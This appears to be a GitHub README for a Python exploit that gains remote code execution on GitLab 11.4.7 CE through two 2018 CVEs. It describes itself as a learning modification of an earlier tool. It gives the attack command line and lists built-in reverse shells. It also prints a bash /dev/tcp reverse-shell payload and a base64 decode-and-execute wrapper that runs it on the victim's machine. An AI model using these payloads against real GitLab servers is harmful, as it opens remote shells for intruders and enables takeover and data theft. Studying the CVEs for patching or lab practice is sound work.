 # gitlab-RCE-11.4.7
GitLab 11.4.7 CE RCE exploit with different reverse shells.  
CVE-2018-19571: https://nvd.nist.gov/vuln/detail/CVE-2018-19571  
CVE-2018-19585: https://nvd.nist.gov/vuln/detail/CVE-2018-19585

Modification of the version from [Sam Redmond and Tam Lai Yin](https://github.com/ctrlsam/GitLab-11.4.7-RCE) in order to learn and practice.

## How to use

It is written in python3 as all things should be.

Dependencies:
```
pip3 install requests
```

Use:

```
python3 rce_script.py -u <username> -p <password> -g <url without port> -l <local ip> -P <local port> [<shell lang>]
```

By default, the netcat with -e option shell is used.


## Build-in shells

Current build-in shells:

  - nc_e
    - Netcat with the -e option.
  - bash: 
    - Bash executed with absolute path.
  - perl: 
    - Perl executed from the $PATH.
  - python3: 
    - Python3 executed from the $PATH.
  - ruby: 
    - Ruby executed from the $PATH.
  - php: 
    - PHP executed from the $PATH. **Note**: Usually doesn't work in the GitLab docker.

## Add user-defined shells

Some shells contain characters thats doesn't get along with the request encoding. Therefore they are encoded in Base64 and then decoded and executed in the victim's machine.

If you want to add your own shell, add a value to the ```payloads_dict``` structure.

You must define the following:

```python
'bash': {
    # If the raw_payload can be executed withoud encoding
    'safe': False,
    # Payload, must contain the references for the local_ip and for the local_port
    'raw_payload': 'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1',
    # How to execute the payload if safe is False. Must conatin the reference for payload
    'exec_string': 'echo {payload} | base64 -d | /bin/bash'
}
```

## Disclaimer

The HTML parsing is pretty hardcoded, it may break easily.




